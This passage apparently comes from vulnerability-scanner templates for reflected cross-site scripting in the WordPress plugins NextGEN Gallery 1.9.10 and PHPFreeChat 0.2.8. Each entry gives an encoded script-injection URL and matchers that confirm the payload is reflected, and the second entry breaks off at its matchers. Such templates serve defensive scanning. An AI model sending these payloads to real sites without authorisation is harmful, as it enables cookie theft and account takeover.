 **Type - status**
- status
    1. 200

---
# WordPress NextGEN Gallery 1.9.10 - Cross-Site Scripting
## Description
- WordPress NextGEN Gallery 1.9.10 plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wp-plugin,edb,wordpress,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/nextgen-gallery/nggallery.php?test-head=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress PHPFreeChat 0.2.8 - Cross-Site Scripting
## Description
- WordPress PHPFreeChat 0.2.8 plugin contains a cross-site scripting vulnerability via the url parameter. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,wp-plugin,edb,wordpress
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/phpfreechat/lib/csstidy-1.2/css_optimiser.php?url=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers
